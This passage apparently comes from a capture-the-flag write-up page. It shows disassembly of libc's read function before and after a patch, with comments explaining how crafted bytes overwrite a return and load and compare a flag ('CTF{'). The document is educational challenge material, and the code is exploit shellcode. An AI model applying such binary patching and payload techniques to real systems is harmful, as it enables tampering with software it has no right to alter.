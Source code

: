 ```text
        00214ab1 64 89 02        MOV        dword ptr FS:[__n],EAX
        00214ab4 48 c7 c0        MOV        RAX,-0x1
                 ff ff ff ff
        00214abb eb ba           JMP        LAB_00214a77
        00214abd 0f              ??         0Fh
        00214abe 1f              ??         1Fh
        00214abf 00              ??         00h
```

{% endcapture %}

{% include widgets/toggle-field.html toggle-name="wfw_before_asm"
    button-text="Show libc_original.asm" toggle-text=wfw_before_asm  %}
		
{% capture wfw_after_asm %}

```text
0x7fca9f372980 <read>:     endbr64
0x7fca9f372984 <read+4>:   mov    eax,DWORD PTR fs:0x18
0x7fca9f37298c <read+12>:  test   eax,eax
0x7fca9f37298e <read+14>:  jne    0x7fca9f3729a0 <read+32>

// read payload so that rsp+0x43 = flag location
0x7fca9f372990 <read+16>:  syscall 

0x7fca9f372992 <read+18>:  cmp    rax,0xfffffffffffff000
0x7fca9f372998 <read+24>:  ja     0x7fca9f3729f0 <read+112>
//was ret, overwrite to start payload
0x7fca9f37299a <read+26>:  rex.XB 
0x7fca9f37299b <read+27>:  rex.XB //C
0x7fca9f37299c <read+28>:  rex.XB //C
0x7fca9f37299d <read+29>:  rex.XB //C
0x7fca9f37299e <read+30>:  rex.XB //C
0x7fca9f37299f <read+31>:  rex.XB //C
0x7fca9f3729a0 <read+32>:  sub    rsp,0x28
0x7fca9f3729a4 <read+36>:  mov    QWORD PTR [rsp+0x18],rdx
0x7fca9f3729a9 <read+41>:  mov    QWORD PTR [rsp+0x10],rsi
0x7fca9f3729ae <read+46>:  mov    DWORD PTR [rsp+0x8],edi
0x7fca9f3729b2 <read+50>:  rex.XB //C
0x7fca9f3729b3 <read+51>:  rex.XB //C
0x7fca9f3729b4 <read+52>:  rex.XB //C
0x7fca9f3729b5 <read+53>:  rex.XB //C
0x7fca9f3729b6 <read+54>:  rex.XB //C
0x7fca9f3729b7 <read+55>:  mov    rdx,QWORD PTR [rsp+0x18]

//C, load flag location into rsi
0x7fca9f3729bc <read+60>:  mov    rsi,QWORD PTR [rsp+0x43] 

0x7fca9f3729c1 <read+65>:  mov    r8d,eax
0x7fca9f3729c4 <read+68>:  mov    edi,DWORD PTR [rsp+0x8]
0x7fca9f3729c8 <read+72>:  xor    eax,eax

// read CT, rax = 2, cmp gives no parity, jmp
0x7fca9f3729ca <read+74>:  syscall 
0x7fca9f3729cc <read+76>:  cmp    rax,0x7b465443 //CTF{ {
0x7fca9f3729d2 <read+82>:  jnp    0x7fca9f372a08 <read+136>

[...]
0x7fca9f372a08 <read+136>: rex.XB //C
0x7fca9f372a09 <read+137>: rex.XB //C
0x7fca9f372a0a <read+138>: rex.XB //C
0x7fca9f372a0b <read+139>: rex.XB //C
0x7fca9f372a0c <read+140>: rex.XB //C
0x7fca9f372a0d <read+141>: rex.XB //C
0x7fca9f372a0e <read+142>: rex.XB neg r8d
```